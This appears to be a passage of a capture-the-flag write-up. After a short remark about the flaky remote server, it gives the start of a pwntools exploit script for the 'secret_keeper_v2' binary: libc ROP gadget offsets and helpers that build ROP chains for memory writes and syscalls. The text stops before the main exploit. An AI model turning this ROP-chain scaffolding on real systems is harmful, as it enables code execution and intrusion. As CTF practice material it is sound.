 I didn't solve this while CTF is still running since the remote server has really low success rate.

```py
#!/usr/bin/env python
from pwn import *

context.arch = "amd64"
# context.log_level = "debug" # debug, info, warn
context.terminal = ["tmux", "splitw", "-h"]

BINARY = "./secret_keeper_v2"
HOST = "130.211.214.112"
PORT = 18006

# elf = ELF(BINARY, checksec=False)
uu64 = lambda x: u64(x.ljust(8, "\x00"))
uu32 = lambda x: u32(x.ljust(4, "\x00"))

gdbscript = '''
brva 0x1677
# brva 0x15da
'''

def attach(r):
    if type(r) == process:
        gdb.attach(r, gdbscript)

# 0x000000000003d780: pop rax; ret; 
# 0x00000000000268a2: pop rdi; ret;
# 0x0000000000026dc9: pop rsi; ret; 
# 0x000000000002e1ba: pop rdx; ret; 
# 0x000000000011cb6e: mov qword ptr [rdi], rax; ret; 
# 0x00000000000b8ac9: syscall; ret; 
# 0x000000000003124f: nop; ret; 

def write64(addr, n):
    payload  = p64(libc.address + 0x000000000003d780)
    payload += p64(n)
    payload += p64(libc.address + 0x00000000000268a2)
    payload += p64(addr)
    payload += p64(libc.address + 0x000000000011cb6e)
    return payload

def write_str(addr, data):
    payload  = ''
    data_split = [data[i:i+8] for i in range(0, len(data), 8)]
    for d in data_split:
        payload += write64(addr, uu64(d))
        addr += 8
    return payload

def syscall(rax=None, rdi=None, rsi=None, rdx=None):
    if rax != None:
        payload  = p64(libc.address + 0x000000000003d780)
        payload += p64(rax)
    if rdi != None:
        payload += p64(libc.address + 0x00000000000268a2)
        payload += p64(rdi)
    if rsi != None:
        payload += p64(libc.address + 0x0000000000026dc9)
        payload += p64(rsi)
    if rdx != None:
        payload += p64(libc.address + 0x000000000002e1ba)
        payload += p64(rdx)
```